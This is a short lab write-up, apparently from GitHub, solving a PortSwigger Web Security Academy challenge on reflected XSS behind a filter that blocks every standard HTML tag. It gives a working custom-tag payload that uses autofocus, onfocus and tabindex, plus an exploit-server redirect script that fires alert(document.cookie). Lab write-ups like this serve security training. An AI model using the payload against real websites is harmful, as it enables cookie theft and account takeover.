 #reflected-xss

Reflected XSS into HTML context with all tags blocked except custom ones: [link](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)

This lab blocks all HTML tags except custom ones.

In the previous challenge, the WAF protected the web application by blocking most HTML tags. But in this challenge, the WAF blocks all tags except custom tags. However, it does not block attributes, which can still be used to trigger the vulnerability.

So I decided to use the following payload to exploit the web application:
`<customtag autofocus onfocus=alert(1) tabindex=1>`

Custom tags like `<customtag>` are *not normally focusable* by default so for that we use *tabindex=1*

I tested this payload on the exploit server.
```javascript
<script>

document.location = "https://0a3e00fb0302e68e807703d8002c0087.web-security-academy.net/?search=%3Ccustomtag+autofocus+onfocus%3Dalert%28document.cookie%29+tabindex%3D1%3E";

</script>
```

and it work :).